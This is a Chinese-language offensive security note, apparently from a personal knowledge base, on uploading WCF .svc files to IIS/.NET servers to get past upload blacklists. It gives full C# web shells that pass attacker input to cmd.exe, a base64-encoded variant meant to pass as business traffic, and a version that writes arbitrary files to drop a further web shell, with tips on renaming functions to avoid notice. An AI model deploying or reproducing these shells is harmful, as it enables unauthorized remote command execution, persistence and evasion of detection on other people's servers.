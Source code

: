 基本都会有[ServiceContract]关键字<br />![image.png](https://cdn.nlark.com/yuque/0/2022/png/1345801/1664248221846-5707d096-8405-4463-9e2a-93571632ec77.png#clientId=ucfedfd0f-fec5-4&from=paste&height=302&id=u9ec8d0c4&originHeight=309&originWidth=442&originalType=binary&ratio=1&rotation=0&showTitle=false&size=34891&status=done&style=none&taskId=ued93fa9a-95fb-4952-94b7-ddd0fb73595&title=&width=432.6000061035156)

<a name="qc2oC"></a>
## svc命令执行脚本
实战中绕过黑名单可以上传svc脚本<br />test.svc
```
<%@ ServiceHost Language="C#" Debug="true" Service="Service" %>
using System;
using System.Web;
using System.IO;
using System.Runtime.Serialization;
using System.ServiceModel;
using System.Text;
using System.ServiceModel.Activation;
using System.Collections.Generic;
using System.Configuration;
using System.ServiceModel.Web;
using System.Diagnostics;

[ServiceContract]
    public interface IService1
    {

        [OperationContract]
        string cmdShell(string value);

        // TODO: 在此添加您的服务操作
    }

public class Service : IService1
{
public string cmdShell(string text) {
		Process pr = new Process();
        pr.StartInfo.FileName = "cmd.exe";
        pr.StartInfo.RedirectStandardOutput = true;
        pr.StartInfo.UseShellExecute = false;
        pr.StartInfo.Arguments = "/c " + text;
        pr.StartInfo.WindowStyle = ProcessWindowStyle.Hidden;
        pr.Start();
        StreamReader osr = pr.StandardOutput;
        String ocmd = osr.ReadToEnd();
        osr.Close();
        osr.Dispose();
        return ocmd;
    }

}
```

Web.config
```
<?xml version="1.0" encoding="utf-8"?>
<configuration>
  <system.serviceModel>
    <behaviors>
      <serviceBehaviors>
        <behavior>
          <!-- 为避免泄漏元数据信息，请在部署前将以下值设置为 false -->
          <serviceMetadata httpGetEnabled="true" httpsGetEnabled="true"/>
        </behavior>
      </serviceBehaviors>
    </behaviors>
  </system.serviceModel>
</configuration>

```
两个上传之后，同目录的，wsdl解码就可以命令执行了<br />![image.png](https://cdn.nlark.com/yuque/0/2022/png/1345801/1664248733954-89c04cc7-ffb1-40de-981c-53d0877a9072.png#clientId=ucfedfd0f-fec5-4&from=paste&height=604&id=u46cfa027&originHeight=755&originWidth=1339&originalType=binary&ratio=1&rotation=0&showTitle=false&size=64928&status=done&style=none&taskId=u5f2a9179-bf23-4cc3-be97-d3669e1991b&title=&width=1071.2)
<a name="WFQDT"></a>
## 编码流量伪装
请求包的cmdshell函数名太惹眼了，改一下编码输入和输出
```
<%@ ServiceHost Language="C#" Debug="true" Service="Service" %>
using System;
using System.Web;
using System.IO;
using System.Runtime.Serialization;
using System.ServiceModel;
using System.Text;
using System.ServiceModel.Activation;
using System.Collections.Generic;
using System.Configuration;
using System.ServiceModel.Web;
using System.Diagnostics;

[ServiceContract]
    public interface IService1
    {

        [OperationContract]
        string cmdShell(string value);

        // TODO: 在此添加您的服务操作
    }

public class Service : IService1
{
public string cmdShell(string text) {
		byte[] outputb = Convert.FromBase64String(text);
		string str1 = Encoding.Default.GetString(outputb);
		Process pr = new Process();
        pr.StartInfo.FileName = "cmd.exe";
        pr.StartInfo.RedirectStandardOutput = true;
        pr.StartInfo.UseShellExecute = false;
        pr.StartInfo.Arguments = "/c " + str1;
        pr.StartInfo.WindowStyle = ProcessWindowStyle.Hidden;
        pr.Start();
        StreamReader osr = pr.StandardOutput;
		String ocmd = osr.ReadToEnd();
		
		byte[] bytes = Encoding.Default.GetBytes(ocmd);
		string str = Convert.ToBase64String(bytes);
        osr.Close();
        osr.Dispose();
        return str;
    }

}
```
![image.png](https://cdn.nlark.com/yuque/0/2022/png/1345801/1664346861634-32dcfe80-8943-44be-8f50-0cf1baf92def.png#clientId=udb993fdc-d10b-4&from=paste&height=636&id=ucc981f57&originHeight=795&originWidth=1677&originalType=binary&ratio=1&rotation=0&showTitle=false&size=68589&status=done&style=none&taskId=u39fdf587-0829-4a26-aeb4-96df6cddc0a&title=&width=1341.6)<br />把cdmshell改一下名字，就更隐秘了，实战中就可以伪装成业务数据流量穿梭了。<br />![image.png](https://cdn.nlark.com/yuque/0/2022/png/1345801/1664347779696-81d857dc-9fa4-4dfe-a8ba-4bce9679d0bc.png#clientId=uf4fd4b91-b5cb-4&from=paste&height=414&id=ua0e96b2a&originHeight=518&originWidth=1859&originalType=binary&ratio=1&rotation=0&showTitle=false&size=31257&status=done&style=none&taskId=u8c8e6cd9-d602-4e7f-a32f-3f34bccbf39&title=&width=1487.2)

<a name="CE1HQ"></a>
## webshell写入
```
<%@ ServiceHost Language="C#" Debug="true" Service="Service" %>
using System;
using System.Web;
using System.IO;
using System.Runtime.Serialization;
using System.ServiceModel;
using System.Text;
using System.ServiceModel.Activation;
using System.Collections.Generic;
using System.Configuration;
using System.ServiceModel.Web;
using System.Diagnostics;

[ServiceContract]
    public interface IService1
    {

        [OperationContract]
        string webapi(string value);

		[OperationContract]
		string Createfile(string filepath,string filevalue);
        // TODO: 在此添加您的服务操作
    }

public class Service : IService1
{
public string webapi(string text) {
		byte[] outputb = Convert.FromBase64String(text);
		string str1 = Encoding.Default.GetString(outputb);
		Process pr = new Process();
        pr.StartInfo.FileName = "cmd.exe";
        pr.StartInfo.RedirectStandardOutput = true;
        pr.StartInfo.UseShellExecute = false;
        pr.StartInfo.Arguments = "/c " + str1;
        pr.StartInfo.WindowStyle = ProcessWindowStyle.Hidden;
        pr.Start();
        StreamReader osr = pr.StandardOutput;
		String ocmd = osr.ReadToEnd();
		
		byte[] bytes = Encoding.Default.GetBytes(ocmd);
		string str = Convert.ToBase64String(bytes);
        osr.Close();
        osr.Dispose();
        return str;
    }
public string Createfile(string filepath,string filevalue) {
		var a = filepath;
		byte[] outputb = Convert.FromBase64String(filevalue);
		string str1 = Encoding.Default.GetString(outputb);
		System.IO.File.WriteAllText(filepath,str1);
        return a;
    }
}
```
![image.png](https://cdn.nlark.com/yuque/0/2022/png/1345801/1664357675977-37437417-b97a-44fd-88c8-025ee9f1bb57.png#clientId=ud08609fc-9bb8-4&from=paste&height=70&id=u91084e4e&originHeight=88&originWidth=1127&originalType=binary&ratio=1&rotation=0&showTitle=false&size=5861&status=done&style=none&taskId=udbbd71b9-1715-4ca8-8046-337c770e522&title=&width=901.6)<br />filepath要通过命令执行去找到web的物理路径，然后传入完整的路径<br />filevalue用base64传值，是webshell的木马内容<br />![image.png](https://cdn.nlark.com/yuque/0/2022/png/1345801/1664357516453-0709ae94-59fa-4a05-93f2-6d35036a8d7c.png#clientId=ud08609fc-9bb8-4&from=paste&height=572&id=ufb2d7a6d&originHeight=715&originWidth=1654&originalType=binary&ratio=1&rotation=0&showTitle=false&size=55812&status=done&style=none&taskId=u80fb3233-d5f8-43b6-85f7-635e4e85230&title=&width=1323.2)
